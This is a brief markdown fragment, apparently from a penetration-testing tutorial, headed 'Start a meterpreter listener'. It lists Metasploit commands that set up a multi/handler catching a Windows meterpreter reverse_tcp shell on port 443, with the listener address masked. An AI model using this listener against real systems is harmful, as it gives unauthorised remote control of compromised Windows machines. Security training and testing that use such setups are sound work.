 Start a meterpreter listener
------------------
```bash
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST xxx.xxx.xxx.xxx
set LPORT 443
exploit
```
